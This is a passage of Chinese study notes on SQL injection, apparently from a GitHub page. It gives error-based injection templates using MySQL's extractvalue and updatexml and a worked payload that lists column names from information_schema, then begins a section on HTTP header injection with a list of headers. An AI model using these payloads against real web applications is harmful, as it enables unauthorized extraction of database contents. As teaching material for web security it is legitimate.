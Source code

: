 

详细看https://blog.csdn.net/zpy1998zpy/article/details/80650540

#### extractvalue报错注入

```mysql
extractvalue(xml_document,xpath_string)
```

模板

```mysql
?id=1' and extractvalue(1,concat(0x7e,(select user()),0x7e))#
把select user()做替换即可
```





#### updataxml报错注入

(该注入可以`忽略空格`，可以考虑用于空格符被过滤的情况)

UpdateXml 函数实际上是去更新了XML文档，但是我们在XML文档路径的位置里面写入了子查询，我们输入特殊字符，然后就因为不符合输入规则然后报错了，但是报错的时候他其实已经执行了那个子查询代码

```mysql
UPDATEXML(XML_document, XPath_string, new_value)
```

模板

```mysql
?id=1' and updatexml(1,concat(0x7e,user(),0x7e),1)
把user()做替换
```

例子

```
admin'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#

```



### HTTP头部注入

#### HTTP头部详解

```
HTTP头部详解

1、 Accept：告诉WEB服务器自己接受什么介质类型，*/* 表示任何类型，type/* 表示该类型下的所有子类型，type/sub-type。

2、 Accept-Charset： 浏览器申明自己接收的字符集

Accept-Encoding： 浏览器申明自己接收的编码方法，通常指定压缩方法，是否支持压缩，支持什么压缩方法（gzip，deflate）

Accept-Language：：浏览器申明自己接收的语言

语言跟字符集的区别：中文是语言，中文有多种字符集，比如big5，gb2312，gbk等等。

3、 Accept-Ranges：WEB服务器表明自己是否接受获取其某个实体的一部分（比如文件的一部分）的请求。bytes：表示接受，none：表示不接受。

4、 Age：当代理服务器用自己缓存的实体去响应请求时，用该头部表明该实体从产生到现在经过多长时间了。

5、 Authorization：当客户端接收到来自WEB服务器的 WWW-Authenticate 响应时，用该头部来回应自己的身份验证信息给WEB服务器。

6、 Cache-Control：请求：no-cache（不要缓存的实体，要求现在从WEB服务器去取）

max-age：（只接受 Age 值小于 max-age 值，并且没有过期的对象）
```